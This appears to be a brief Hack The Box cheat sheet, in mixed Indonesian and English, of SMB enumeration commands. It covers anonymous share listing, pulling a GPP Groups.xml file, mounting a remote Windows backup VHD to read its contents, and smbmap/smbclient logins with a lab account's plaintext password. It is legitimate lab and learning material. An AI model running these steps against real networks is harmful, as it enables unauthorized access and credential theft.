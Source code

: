 sensitive file ada disini: `smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml``
                                                                     

# SMBD client liat share

    smbclient --list //10.10.10.134/ -U ""

# SMB liat dir

    smbclient //10.10.10.134/Backups -U ""

# SMB cliant 

    smbclient //10.10.10.100/Replication -U "%"

# Mount SMB vhd to /mnt

    root@kali:~/Desktop/HTB/boxes/bastion# mkdir /mnt/L4mpje-PC
    root@kali:~/Desktop/HTB/boxes/bastion# mkdir /mnt/vhd
    root@kali:~/Desktop/HTB/boxes/bastion# modprobe nbd
    root@kali:~/Desktop/HTB/boxes/bastion# mount -t cifs //bastion.htb/Backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous
    Password for anonymous@//bastion.htb/Backups/WindowsImageBackup/L4mpje-PC:
    root@kali:~/Desktop/HTB/boxes/bastion# qemu-nbd -r -c /dev/nbd0 "/mnt/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd"
    root@kali:~/Desktop/HTB/boxes/bastion# mount -r /dev/nbd0p1 /mnt/vhd
    root@kali:~/Desktop/HTB/boxes/bastion#

# SMBMAP

    smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18

# SMBCLIENT with password 

    smbclient //10.10.10.100/Users -U "SVC_TGS" -p GPPstillStandingStrong2k18